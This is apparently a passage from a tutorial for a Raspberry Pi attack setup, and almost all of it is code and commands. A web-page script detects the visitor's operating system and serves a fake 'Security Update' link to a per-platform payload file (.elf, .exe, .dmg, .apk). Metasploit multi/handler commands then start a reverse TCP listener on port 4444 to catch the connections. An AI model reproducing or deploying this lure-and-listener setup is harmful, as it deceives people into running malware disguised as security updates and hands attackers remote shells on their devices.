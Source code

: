 Content of file `/var/www/html/scripts/script.js`.

```javascript
'use strict';

if (navigator.userAgent.match(/Linux/i)) {
  document.getElementById("patch").innerHTML = "<a href=\"data/security.elf\" target=\"_blank\">Linux Security Update</a>";
} else if (navigator.userAgent.match(/Windows/i)) {
  document.getElementById("patch").innerHTML = "<a href=\"data/security.exe\" target=\"_blank\">Windows Security Update</a>";
} else if (navigator.userAgent.match(/Mac/i)) {
  document.getElementById("patch").innerHTML = "<a href=\"data/security.dmg\" target=\"_blank\">macOS Security Update</a>";
} else if (navigator.userAgent.match(/android/i)) {
  document.getElementById("patch").innerHTML = "<a href=\"data/security.apk\" target=\"_blank\">Android Security Update</a>";
} else {
  document.getElementById("patch").innerHTML = "Your system is not supported..."
}
```

### Start connection handler

```shell
# use multi/handler
msf6 > use exploit/multi/handler

# show information's (optional)
msf6 exploit(multi/handler) > info

# show options (optional)
msf6 exploit(multi/handler) > options

# set LHOST
msf6 exploit(multi/handler) > set LHOST 192.168.0.1

# start multi/handler
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.0.1:4444
```

### Wait or test for connection

You can now wait or just test it yourself (_without a payload, of course_).

With a 2nd terminal session, you can check the port 4444 on Raspberry PI.

```shell
# show if port 4444 is listen
pi@raspberrypi:~ $ ss -tl | grep 4444
LISTEN   0        256          192.168.0.1:4444                  0.0.0.0:* 
```
